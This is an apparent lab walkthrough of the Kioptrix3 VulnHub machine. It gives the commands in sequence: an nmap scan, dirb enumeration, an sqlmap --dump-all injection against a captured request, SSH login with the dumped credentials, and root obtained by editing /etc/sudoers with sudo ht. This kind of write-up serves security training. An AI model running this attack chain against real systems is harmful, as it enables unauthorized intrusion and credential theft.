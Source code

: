### target:				kioptrix3 by Kioptrix Team

### hosted by:			vulnhub.com

### testing platform:	kali linux 2017

### walkthrough by:		worzel_gummidge



the attacker runs an **nmap** port, os and version scan againat the target server.

```bash
nmap -n -T5 -A -p1-65535 192.168.56.101
```



**nmap** shows that *ssh* and *http* on *tcp80* are running on the target. the attacker runs **dir** to probe port *tcp80* further

```bash
dirb http://kioptrix3.com /usr/share/dirb/wordlists/big.txt
```



through **dirb** the attaccker discovers *kioptrix.com/gallery* and captures the following *http* request using **burp**. the request file is fed into **sqlmap** and an *sql injection* vulnerability is found

![screenshot of captured request in burp](assets/1.png "captured request")

```bash
sqlmap -r sql.txt --risk 3 --level 5 --dump-all
```



the attacker uses the credentials found in the database to ssh into the target

![screenshot of successful ssh login](assets/2.png "ssh login success")



to gain root privileges the attacker edits the /etc/sudoers file

```bash
export TERM=xterm
sudo ht /etc/sudoers
```

![screenshot: editing /etc/sudoers in xterm](assets/3.png "editing for root")



```bash
sudo /bin/bash
```

![screenshot: cat Congrats.txt](assets/4.png "we have root")
